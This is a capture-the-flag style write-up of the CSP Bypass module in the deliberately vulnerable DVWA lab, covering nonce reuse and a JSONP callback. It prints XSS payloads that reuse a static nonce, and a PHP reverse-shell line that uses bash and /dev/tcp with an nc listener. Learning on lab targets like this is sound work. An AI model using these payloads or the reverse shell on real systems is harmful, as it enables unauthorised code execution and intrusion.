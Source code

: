 ```yaml
---
title: DVWA - CSP Bypass
date: 2023-12-18
categories: [CTF, Web Exploitation]
tags: [dvwa, csp, csp-bypass, burp, xss, javascript, js, php, nonce]
img_path: /assets/dvwa/csp_bypass
published: true
---
```


## Information

- [How to install dvwa on Kali](https://www.kali.org/tools/dvwa/).
- [Official GitHub repository](https://github.com/digininja/DVWA).

> The DVWA server itself contains instructions about almost everything.

_**Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment._

_The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface._

![](dvwa_home.png){: width='70%' }

The DVWA server has **4 different security levels** which can be set as seen below:

![](security_levels.png){: width='70%' }

- **Low**: This security level is completely vulnerable and has no security measures at all. It's use is to be as an example of how web application vulnerabilities manifest through bad coding practices and to serve as a platform to teach or learn basic exploitation techniques.
- **Medium**: This setting is mainly to give an example to the user of bad security practices, where the developer has tried but failed to secure an application. It also acts as a challenge to users to refine their exploitation techniques.
- **High**: This option is an extension to the medium difficulty, with a mixture of harder or alternative bad practices to attempt to secure the code. The vulnerability may not allow the same extent of the exploitation, similar in various Capture The Flags (CTFs) competitions.
- **Impossible**: This level should be secure against all vulnerabilities. It is used to compare the vulnerable source code to the secure source code.

## Content Security Policy (CSP) Bypass

CSP is used to **define where scripts and other resources can be loaded or executed from**. This module will walk you through ways to bypass the policy based on common mistakes made by developers. None of the vulnerabilities are actual vulnerabilities in CSP, they are vulnerabilities in the way it has been implemented.

**Objective**: Bypass Content Security Policy (CSP) and execute JavaScript in the page.

## Security: Low
> _Examine the policy to find all the sources that can be used to host external script files ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_low_source.php))._

> This task has an active issue: [CSP Bypass can't be solved with Hastebin anymore (once again) #539](https://github.com/digininja/DVWA/issues/539)
{: .prompt-warning}

## Security: Medium
> _The CSP policy tries to use a nonce to prevent inline scripts from being added by attackers ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_medium_source.php))._

1. If we have a look at the source code, we will see that a `nonce` has been included:

    ```php
    $headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";

    header($headerCSP);

    // Disable XSS protections so that inline alert boxes will work
    header ("X-XSS-Protection: 0");

    # <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>
    ```

    Let's find out what exactly [`nonce`](https://blog.mozilla.org/security/2014/10/04/csp-for-the-web-we-have/) is:

    _A CSP with a nonce-source might look like this:_

    `content-security-policy: default-src 'self'; script-src 'nonce-2726c7f26c'`

    And the corresponding document might contain a script element that looks like this:

    ```php
    <script nonce="2726c7f26c">
    alert(123);
    </script>
    ```

    There are 2 things to note here:
    1. It’s important that the nonce changes for each response.
    2. It’s important that the nonce is sufficiently hard to predict.

    _Now, because the nonce changes in a way that isn’t predictable, **the attacker doesn’t know what to inject** and so, by only allowing script (or style) elements with valid nonce attributes, we can be sure that injections will fail._

2. Essentialy, in order to bypass CSP we now need to know the `nonce`'s value. If we try to XSS as usual, it won't work:

    ```javascript
    <script>alert("XSS")</script>
    ```

    ![](medium_xss_fail.png)

3. But if we pass our payload along with the `nonce`'s value, it will work just fine:

    ```javascript
    <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert("XSS")</script>
    ```

    ![](medium_xss_nonce.png)

## Security: High
> _The page makes a JSONP call to source/jsonp.php passing the name of the function to callback to, you need to modify the jsonp.php script to change the callback function ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_high_source.php))._

## Reverse shell

1. On this level the page makes a call to `jsonp.php` and executes whatever code is there:

    ![](home_high.png)

    ```shell
    $ cat /usr/share/dvwa/vulnerabilities/csp/source/jsonp.php
    <?php
    header("Content-Type: application/json; charset=UTF-8");

    if (array_key_exists ("callback", $_GET)) {
            $callback = $_GET['callback'];
    } else {
            return "";
    }

    $outp = array ("answer" => "15");

    echo $callback . "(".json_encode($outp).")";
    ?>
    ```

2. We can make a backup of this file and replace it with one that contains our code in it, such as a [php reverse shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell):

    ```shell
    $ sudo cp jsonp.php jsonp.php.bak

    $ ls
    high.js  high.php  impossible.js  impossible.php  jsonp_impossible.php  jsonp.php  jsonp.php.bak  low.php  medium.php

    $ cat jsonp.php
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/1337 0>&1'");?>
    ```

3. If we set up a listener and click the *Solve the sum* button, we should be able to catch the reverse shell:

    ```shell
    $  nc -lvnp 1337
    listening on [any] 1337 ...
    ```

    ![](medium_revshell.png)

## Command execution

1. If we click the *Solve the sum* button and intercept the traffic with Burp, we will notice the `callback` parameter:

    ![](high_burp.png)

2. We can modify `callback`'s value by passing a simple payload and then execute our payload by sending the request:

    ![](high_burp2.png)

    ![](high_alert.png)

## Security: Impossible
> _This level is an update of the high level where the JSONP call has its callback function hardcoded and the CSP policy is locked down to only allow external scripts ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_impossible_source.php))._

## Resources

- Cryptocat's [video walkthrough](https://www.youtube.com/watch?v=ERksJHl0DC0).
- [Content Security Policy Reference](https://content-security-policy.com/).
- Mozilla's [CSP for the web we have](https://blog.mozilla.org/security/2014/10/04/csp-for-the-web-we-have/).
- PortSwigger's [Content Security Policy](https://portswigger.net/web-security/cross-site-scripting/content-security-policy).